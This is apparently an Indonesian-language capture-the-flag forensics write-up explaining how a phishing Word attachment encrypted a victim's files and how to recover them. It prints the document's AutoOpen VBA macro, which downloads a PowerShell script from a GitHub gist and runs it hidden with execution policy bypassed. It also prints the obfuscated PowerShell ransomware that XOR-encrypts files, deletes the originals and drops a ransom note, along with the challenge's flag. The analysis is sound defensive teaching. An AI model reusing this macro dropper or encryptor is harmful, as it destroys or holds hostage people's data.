 # Got Hacked

Author: daffainfo

Category: Forensic

Flag: `HCS{h4T1_H4ti_d3n94N_M4lw4R3_y4a4A!!!}`

## Description
"Barusan saja aku membuka file yang dikirimkan melalui email dari seseorang bernama ""Budi"" dan tiba-tiba semua file yang ada didalam laptopku ini diencrypt :(. Bisakah kalian membantuku mengembalikan file-file yang ada didalam laptopku agar bisa dibaca kembali?

* Disarankan untuk membuka file dengan menggunakan virtual machine karena mengandung malware"

## Difficulty
Advanced

## Solution
Diberikan 2 files, file `eml` dan file zip yang berisikan folder yang terencrypt oleh si malware. Dan objective kita adalah mengembalikan folder yang telah terencrypt dengan melakukan digital forensic pada email yang telah diberikan.

![email](images/email.png)

Didalam email, terdapat file word yang jika dibuka akan sepert ini

![preview](images/preview.png)

Namun, disaat membuka file word ini, terdapat VBScript yang bisa dicek dengan mencari fitur Visual Basic Editor pada word

![vbs](images/vbs.png)

Dan terdapat 1 script seperti code dibawah

```vb
Sub AutoOpen()
    Dim Shell As Object
    Dim ScriptURL As String
    Dim ScriptPath As String

    ScriptURL = "https://gist.githubusercontent.com/daffainfo/b8c959c4247d1fbc0cb27747a24dce0c/raw/93be1336229351f553411c38ccb40d558460bccb/gistfile1.txt"
    
    ScriptPath = ThisDocument.Path & "\malw.ps1"
    
    Set Shell = CreateObject("WScript.Shell")
    
    Shell.Run "powershell.exe -Command (New-Object Net.WebClient).DownloadFile('" & ScriptURL & "', '" & ScriptPath & "')", 0, True
    Shell.Run "powershell.exe -ExecutionPolicy Bypass -File " & ScriptPath, 0, True
End Sub
```

Jika dicek, ternyata word ini mengandung Powershell command dimana akan mendownload sebuah script dari gist.github.com dan kemudian dieksekusi. Mari kita cek script tersebut

```powershell
$lGhnUCTt99 = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("SGFDZUVzMjAyM0NURiwgQXBha2FoIEd1ZD8="))
function F3l2dps1d($data, $key) {
    $fXYmtqvh99 = [byte[]]::new($data.Length)
    for ($i = 0; $i -lt $data.Length; $i++) {
        $fXYmtqvh99[$i] = $data[$i] -bxor $key[$i % $key.Length]
    }
    return $fXYmtqvh99
}
$OjebbJTq99 = Get-ChildItem -Path . -File
foreach ($vHUqJkXm99 in $OjebbJTq99) {
    $xQqwaDUK99 = $vHUqJkXm99.FullName
    $dkBQeHFf99 = [System.IO.File]::ReadAllBytes($xQqwaDUK99)

    $fXYmtqvh99 = F3l2dps1d $dkBQeHFf99 $lGhnUCTt99

    $CtCAvudW99 = $xQqwaDUK99 + ".enc"
    [System.IO.File]::WriteAllBytes($CtCAvudW99, $fXYmtqvh99)

    Remove-Item $xQqwaDUK99

    $CeKitjMn99 = [System.IO.Path]::Combine((Get-Location).Path, "read_this.txt")
    [System.IO.File]::WriteAllText($CeKitjMn99, "Your files has been encrypted!!!, Send me 10000 BTC to unlock your files")
}
```

Ini adalah Powershell script yang diobfuscate yang dimana akan menjalankan fungsi xor pada semua file yang berada dalam 1 direktori dengan file ini, dan kemudian menambahkan ekstensi `.enc` pada setiap file dan melakukan dropping file bernama `read_this.txt`

Kunci untuk melakukan enkripsi dengan XOR bisa dilihat pada baris pertama, terdapat kunci yang diencode menggunakan `base64` encoding

![decode](images/decode.png)

Jika didecode, kunci untuk melakukan decrypt adalah `HaCeEs2023CTF, Apakah Gud?`. Karena sudah tahu file-file tersebut diencrypt menggunakan fungsi XOR dan juga kita sudah mengetahui kuncinya. Maka yang dilakukan selanjutnya adalah melakukan decrypt pada file `flag.zip.enc`

![flag](images/flag.png)